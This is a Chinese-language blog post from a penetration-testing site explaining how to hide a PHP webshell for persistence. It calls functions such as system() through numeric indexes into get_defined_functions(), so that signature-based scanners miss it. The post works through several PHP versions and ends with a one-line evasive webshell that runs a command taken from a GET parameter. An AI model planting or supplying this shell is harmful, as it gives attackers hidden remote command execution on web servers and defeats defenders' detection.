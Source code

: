 ```yaml
---
layout:     post
title:      "Using get_defined_functions To Hidden A PHP Backdoor"
date:       2017-08-17
categories: [Bypass, Webshell]


---
```




webshell隐藏是渗透当中一个很重要的权限维持技术，目前也有各种各样的隐藏方法，pen-tester的思路也越来越开放(weisuo)。这篇文章主要记录一下利用get_defined_functions()来隐藏webshell的方法，不是什么新技术，但也值得摸索。

关于get_defined_functions()就不在这里介绍了，大家直接去翻官方文档即可，这里看一下还函数的执行结果应该也能明了。

![func_arry](http://reverse-tcp.xyz/static/img/posts/get_defined_functions/func_arry.png)

以下是一个该函数在webshell里边利用的一个思路，主要是可以隐藏危险函数字符串，而利用正则去文件系统及网络流量上匹配危险函数的安全防护对此也就无效了，先看代码：

```php
<?php
function callfunc() {

    $func = get_defined_functions();  //函数自己完成所有函数的枚举，成为list
    $args = func_get_args();  //获取传入参数值
    $func_id = array_shift($args);  //获取传入的函数所代表的list key
    $func_name = $func['internal'][$func_id];  //以key来索引函数名

    return call_user_func_array($func_name, $args);  //调用回调函数，传参执行
}
print callfunc(460, "whoami");
?>
```

这里自定义了一个callfunc函数，将system函数以索引460传入，并在call_user_func_array()函数执行

![callfunc](http://reverse-tcp.xyz/static/img/posts/get_defined_functions/callfunc.png)

按照这个套路我们继续将*func_get_args()*、*array_shift()*、*call_user_func_array()*也用*get_defined_functions()*来调用，那么就变成了这样

```php
<?php
function callfunc() {

    $func = get_defined_functions();
    $args = $func['internal'][3]();
    $func_id = $func['internal'][805]($args);
    $func_name = $func['internal'][$func_id];

    return $func['internal'][556]($func_name, $args);
}
print callfunc(460, 'whoami');
?>
```

当然也可以是这样

```php
<?php
function callfunc() {

    $func = get_defined_functions()['internal'];
    $args = $func[3]();
    $func_id = $func[805]($args);
    $func_name = $func[$func_id];
    return $func[556]($func_name, $args);
}
print callfunc(460, 'whoami');
?>
```

最后我们将自定义函数名及所有变量名缩短，只留一个核心get_defined_functions()函数即可

```php
<?php
function f() {

    $a = get_defined_functions()['internal'];
    $s = $a[3]();
    $b = $a[805]($s);
    $c = $a[$b];
    return $a[556]($c, $s);
}
print f(460, 'whoami');
?>
```

**无特征webshell**

最后我们将所需要执行的命令及想要使用的函数key以参数方式提交，这样就可以完全避免掉危险函数字符串而不通过任何编码，并且相当自由化，你可以用system可以用exec等等。

```php
<?php function f() { $a = get_defined_functions()['internal'];$s = $a[3]();$b = $a[805]($s);$c = $a[$b];return $a[556]($c, $s); }print f($_GET['id'], $_GET['cmd']);?>
```

![wenshell](http://reverse-tcp.xyz/static/img/posts/get_defined_functions/webshell.png)


